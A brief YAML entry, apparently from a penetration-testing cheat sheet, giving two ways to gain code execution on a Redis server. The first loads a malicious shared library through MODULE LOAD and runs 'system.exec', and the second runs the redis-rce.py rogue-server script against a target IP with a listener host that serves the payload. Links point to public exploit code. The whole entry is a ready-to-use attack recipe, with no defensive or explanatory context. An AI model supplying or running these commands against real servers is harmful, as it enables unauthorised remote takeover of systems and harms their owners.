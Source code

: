 ```yaml
---
functions:
  gain-access:
    - description: Redis Command Execution
      code: |
        (1) Upload a shared library to a know filepath
            https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so

        (2) redis-cli -h 192.168.208.93
            MODULE LOAD <full-path-to-exp.so>/exp.so

        (3) system.exec 'id'

    - description: Redis Rogue Server
      code: |
         python2 redis-rce.py -r 192.168.200.93 -L 192.168.49.200 -f exp.so
         https://github.com/Ridter/redis-rce
         https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so
         
---
```

